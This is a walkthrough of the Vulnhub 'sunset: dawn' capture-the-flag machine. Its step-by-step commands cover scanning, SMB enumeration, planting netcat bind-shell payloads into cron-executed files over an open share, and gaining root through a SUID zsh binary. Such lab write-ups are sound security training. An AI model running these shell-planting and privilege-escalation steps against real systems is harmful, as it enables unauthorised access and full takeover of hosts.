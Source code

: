 # Sunset-dawn-Vulnhub-Walkthrough
Sunset: dawn Vulnhub Walkthrough

**Description**
dawn is a boot2root machine with a difficulty designed to be Easy with multiple ways to be completed. It is recommended to use Virtualbox.

Vulnhub link: https://www.vulnhub.com/entry/sunset-dawn,341/

***Name: sunset: dawn
Date release: 3 Aug 2019
Author: whitecr0wz
Series: sunset***

So let's begin hacking!!

**Step 1: Scan the machine**

> nmap -sV -A <IP_address_of_your_machine>

![Screenshot](1.png)

As we can see that port 80 is open which is hosting Apache httpd service and also we have the port 139, 445, 3306 open. This tells us that we have the NetBIOS and MySQL service running on the target machine respectively.

**Step 2: Go to machine's IP in web browser**

In your web browser

>http://<IP_address_of_your_machine>  

![Screenshot](2.png)

This doesn't help us much! Let's try bruteforcing the IP with dirb.

**Step 3: Bruteforce the IP with dirb**

> dirb http://<IP_address_of_your_machine>

![Screenshot](3.png)

After bruteforcing we got a directory `logs` Let's see what it contains

In your web browser

>http://<IP_address_of_your_machine>/logs

![Screenshot](4.png)

Tried to access the various log files listed here, but it's forbidden except `management.log`

**Step 4: Access the management.log**

>cd Downloads

>cat management.log

![Screenshot](7.png)

From this we get to know there's a directory `ITDEPT` and it contains two files web-control and product-control.
As these files were mentioned with cron, we can safely say that these files are getting executed by some background task.

We found that there is a NetBIOS SMB port open in nmap result, so we can use the Enum4Linux script. This shows that we have the ITDEPT directory we found earlier. This means this directory is accessible through SMB.

**Step 5: Access through enum4linux**

>enum4linux -a <IP_address_of_your_machine>

![Screenshot](6.png)

From this we came to know that there are two users `dawn` and `ganimedes`

![Screenshot](8.png)

**Step 6: Access through smbclient**

> smbclient //<IP_address_of_your_machine>/ITDEPT

>When asks for password press enter

![Screenshot](10.png)

Since we found the ITDEPT directory in our enumeration. We tried to access it using the SMB as shown in the sccreenshot. As we can see there is nothing there.

**Step 7: Create files**

> echo "nc -e /bin/bash -lvp 1234 &" > web-control

> echo "nc -e /bin/bash -lvp 1235 &" > product-control

![Screenshot](9.png)

We went back to our terminal and created the files by the name of `product-control` and `web-control`. We created the files by this name because earlier while enumerating the `management.log` file we saw that files with this name were executed after every minute. again and again, using cron. We also entered the netcat shell invocation script in those files using the echo command as well.

**Step 8: Upload the file **

> puts web-control

> puts product-control

![Screenshot](10b.png)

Now back to the SMB shell, we transferred the files that we just created to the target system using the put command. Both the files were successfully transferred. After the transfer, we ran the ls command to check whether the files were indeed on the system or not. As seen in the image given below, we have put our files on the target system. 

**Step 9: Check the log file**

In your web browser

>http://<IP_address_of_your_machine>/logs

>cd Downloads

(Check your new file name)
>cat management.log 

![Screenshot](11.png)

Refer to `Step 3` and `Step 4` for accessing `management.log`.
We can see that the file we created were successfully executed.

**Step 10: Using netcat**

> nc <IP_address_of_your_machine> 1234

> python -c 'import pty;pty.spawn("/bin/bash")' 

![Screenshot](12.png)

Using netcat we got our shell. For a proper shell we used the python one-liner. And after this we came to know this shell belongs to user `dawn`.

**Step 11: Acceessing root**

>find / -perm -u=s -type f 2>/dev/null

>whoami

>/usr/bin/zsh

>whoami

>cd /root

>ls

>cat flag.txt

![Screenshot](13.png)

As we got our shell, it's a regular practice to check for any file having SUID permissions with the help of `find command`.From this, we enumerated all binaries having SUID permissions:
The `find` command gave us that the `zsh` command can help us escalate privilege on this machine.
We ran the zsh command and checked our status using the `whoami` command.
We got root. Now it was time to enumerate for the flag. We traversed into the root directory and found the `flag.txt` file.

**Thank you**




